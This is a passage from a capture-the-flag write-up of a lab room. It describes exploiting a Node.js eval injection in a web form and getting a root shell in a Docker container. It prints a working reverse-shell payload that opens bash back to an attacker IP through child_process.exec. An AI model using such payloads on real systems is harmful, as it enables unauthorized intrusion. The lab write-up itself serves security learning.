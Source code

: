 The "Pro Tip" already gives us a hint what to do next. If you can use mathematical expressions, the underlying app/script certainly uses some kind of `eval` function. Adding to the misconfiguration of the site, if you submit a string, the website returns the full error trace.

```js
ReferenceError: Show is not defined
    at eval (eval at <anonymous> (/usr/src/app/app.js:71:33), <anonymous>:1:1)
    at /usr/src/app/app.js:71:33
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/usr/src/app/node_modules/express/lib/router/route.js:144:13)
    at Route.dispatch (/usr/src/app/node_modules/express/lib/router/route.js:114:3)
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at /usr/src/app/node_modules/express/lib/router/index.js:284:15
    at Function.process_params (/usr/src/app/node_modules/express/lib/router/index.js:346:12)
    at next (/usr/src/app/node_modules/express/lib/router/index.js:280:10)
    at Immediate._onImmediate (/usr/src/app/node_modules/express-session/index.js:506:7)
```

I learned two things from this error message. First, the `eval` function is called. Second, the app is stored at `/usr/src/app/app.js`.

If there are no further security measures in place, I can get a reverse shell by simply sending the following command:

```bash
bash -i >& /dev/tcp/10.0.2.74/9999 0>&1
```

Of course, even with the eval function, nodejs wouldn't just do system calls. Thus, the complete command to issue in the form (or via Burp) is:

```bash
require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.2.74/9999 0>&1"')
```

And with `netcat` listening on port 9999, we got our foothold.

```bash
root@de0610f51845:/usr/src/app# ls
ls
app.js
node_modules
package-lock.json
package.json
public
views
root@de0610f51845:/usr/src/app# whoami
whoami
root
```

Being root sounds good but we know that we are only in a docker container. The next step will be to break out of the container environment and accessing the server.

### Step 2: I want to break free


[1]: https://tryhackme.com/room/umbrella